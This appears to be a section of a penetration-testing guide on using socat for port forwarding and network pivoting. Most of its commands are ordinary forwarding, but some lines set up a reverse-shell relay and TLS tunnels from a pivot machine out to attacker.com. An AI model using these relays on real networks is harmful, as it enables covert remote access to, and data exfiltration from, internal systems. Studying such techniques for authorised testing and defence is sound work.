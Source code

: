 ### **Socat for Advanced Port Forwarding**

**What Socat is:** Swiss Army knife for network connections, providing bidirectional data transfer between various endpoints including files, pipes, devices, sockets, and proxy connections.

**Why Socat is powerful:** Supports multiple protocols, provides encryption capabilities, enables complex connection scenarios, and works across platforms.

```bash
# Socat installation
# Debian/Ubuntu
sudo apt install socat

# CentOS/RHEL
sudo yum install socat

# Basic port forwarding with Socat
# Simple TCP port forwarding
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80
# Forwards local port 8080 to remote port 80

# UDP port forwarding
socat UDP-LISTEN:53,fork UDP:192.168.1.10:53
# Forwards UDP DNS traffic

# Reverse shell relay through Socat
# On pivot machine
socat TCP-LISTEN:4444,fork TCP:attacker.com:4444
# Relays connections from internal network to external attacker

# SSL/TLS encrypted tunneling
# Generate SSL certificate
openssl req -newkey rsa:2048 -nodes -keyout server.key -x509 -days 365 -out server.crt

# SSL server (on attacker machine)
socat OPENSSL-LISTEN:443,cert=server.crt,key=server.key,fork TCP:localhost:4444

# SSL client (on pivot machine)
socat TCP-LISTEN:8080,fork OPENSSL:attacker.com:443,verify=0

# Advanced Socat tunneling scenarios
# HTTP CONNECT proxy tunnel
socat TCP-LISTEN:8080,fork PROXY:proxy.company.com:3128,proxyport=8080

# Multiple port forwarding with shell scripting
#!/bin/bash
# Forward multiple services
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80 &
socat TCP-LISTEN:3389,fork TCP:192.168.1.101:3389 &
socat TCP-LISTEN:445,fork TCP:192.168.1.102:445 &
wait

# File transfer through Socat tunnel
# Sender
socat TCP-LISTEN:8080,fork SYSTEM:'cat file.txt'

# Receiver
socat TCP:pivot.com:8080 SYSTEM:'cat > received_file.txt'

# Persistent Socat tunnels
# Using screen/tmux for persistence
screen -S socat-tunnel
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80
# Ctrl+A, D to detach
```